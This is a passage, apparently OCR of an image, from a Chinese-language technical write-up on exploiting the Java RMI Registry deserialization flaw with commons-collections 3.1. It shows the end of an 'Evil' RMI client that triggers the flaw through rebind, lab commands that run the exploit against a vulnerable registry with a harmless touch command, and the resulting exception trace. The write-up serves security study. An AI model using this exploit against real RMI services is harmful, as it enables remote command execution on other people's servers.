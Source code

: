 ```java
        Registry        r           = LocateRegistry.getRegistry( addr, port );
        /*
         * 通过远程绑定触发"RMI Registry"的反序列化漏洞
         */
        r.rebind( name, remoteProxy );
    }
}
```

7) 测试

假设目录结构是:
.
|
+---test2
|       RMIRegistryServer.class
|       commons-collections-3.1.jar
|
\---test3
        EvilRMIRegistryClientWithBadAttributeValueExpException3.class
        GeneralInvocationHandler3.class
        commons-collections-3.1.jar

为接近现实世界，test2目录下没有GeneralInvocationHandler3.class。

在test2目录执行:

java_8_40 \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException3 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"

与EvilRMIRegistryClientWithBadAttributeValueExpException不同，
EvilRMIRegistryClientWithBadAttributeValueExpException3会抛出异常:

Exception in thread "main" java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
        java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
        java.lang.ClassNotFoundException: GeneralInvocationHandler3 (no security manager: RMI class loader disabled)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:420)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:268)
        at sun.rmi.transport.Transport$1.run(Transport.java:200)
        at sun.rmi.transport.Transport$1.run(Transport.java:197)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:568)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:826)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$78(TCPTransport.java:683)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$1/1947500295.run(Unknown Source)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:682)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
        at java.lang.Thread.run(Thread.java:745)
        at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
        at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)